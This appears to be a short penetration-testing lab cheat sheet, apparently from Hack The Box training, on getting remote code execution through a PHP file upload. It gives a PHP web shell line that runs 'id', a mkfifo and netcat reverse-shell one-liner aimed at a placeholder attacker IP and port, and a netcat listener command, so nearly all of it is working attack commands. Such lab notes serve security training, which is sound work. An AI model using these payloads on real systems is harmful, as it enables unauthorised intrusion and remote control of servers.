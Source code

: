 # Testing RCE

## PHP File Upload Test

The following snippet can be used to test for code execution.

### Code: `php`

    <?php system('id'); ?>

## Reverse Shell `PHP` Script

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f

## Upload the file again and start a `netcat` listener in our terminal:

    MBWest@htb[/htb]$ nc -lvnp 9443

